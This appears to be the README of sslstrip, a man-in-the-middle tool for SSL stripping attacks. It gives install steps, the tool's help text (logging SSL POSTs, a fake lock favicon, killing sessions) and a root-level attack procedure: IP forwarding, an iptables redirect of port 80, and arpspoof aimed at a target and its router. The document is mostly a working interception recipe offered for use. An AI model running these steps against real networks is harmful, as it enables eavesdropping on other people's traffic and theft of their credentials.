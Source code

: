 # sslstrip

`sslstrip` is an MITM tool that implements Moxie Marlinspike's SSL stripping attacks.

Ported from Python v2 to v3 by Jay Townsend (theHarvester, Discover, and DNSrecon).

- [![Twitter Follow](https://img.shields.io/twitter/follow/jay_townsend1.svg?style=social&label=Follow)](https://twitter.com/jay_townsend1) Jay "L1ghtn1ng" Townsend @jay_townsend1

## Requirements

`pip3 install -r requirements.txt`

> [!NOTE]
> Install the requirements in a virtual environment (`venv`).

## Usage

```sh
$ python3 sslstrip.py
usage: sslstrip.py [-h] [-w WRITE] [-p] [-s] [-a]
                   [-l LISTEN] [-f] [-k]

sslstrip

options:
  -h, --help            show this help message and exit
  -w WRITE, --write WRITE
                        Specify file to log to
                        (optional).
  -p, --post            Log only SSL POSTs. (default)
  -s, --ssl             Log all SSL traffic to and from
                        server.
  -a, --all             Log all SSL and HTTP traffic to
                        and from server.
  -l LISTEN, --listen LISTEN
                        Port to listen on.
  -f, --favicon         Substitute a lock favicon on
                        secure requests.
  -k, --killsessions    Kill sessions in progress.
```

## Running

`sslstrip` can be run from the source base without installation.

### Running as normal user

To run as a normal user to see options:

`python3 sslstrip.py -h`

### Running as root user

1. Enable IP forwarding:

`echo "1" > /proc/sys/net/ipv4/ip_forward`

2. Setup `iptables` to intercept HTTP requests:

`iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port <your listen port>`

3. Run `sslstrip` with the options you prefer.

4. Run `arpspoof` to redirect traffic to your host:

`arpspoof -i <your network interface> -t <target IP> <routers IP>`
